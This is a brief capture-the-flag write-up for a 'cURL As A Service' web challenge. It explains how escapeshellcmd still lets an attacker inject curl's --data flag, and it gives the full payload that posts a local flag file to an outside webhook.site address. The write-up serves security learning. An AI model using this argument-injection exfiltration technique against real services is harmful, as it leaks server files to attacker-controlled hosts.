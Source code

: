 # CaaS

Challenge text:
```
cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.
```
Along with the [source code](web_caas).

The website is site where you can input any IP, and it'll curl the url. As we see in the source code, it does this by running `curl -sL escapeshellcmd($url);`. Since what you input is escaped, you can't pipe the input into anything or run multiple arbitrary commands. However, since all we had to do was read a file, w could use curl's `--data` flag to send a file with the request. There was a client-side check to determine if the inputted URL was actually a URL, but this could easily by bypassed for example using burp. By sending the request `--data @../../flag https://webhook.site/898d9834-4163-4815-84ab-41c3ddbe6d48`, the server would run `curl -sL --data @../../flag example.com`, and  we would get the flag.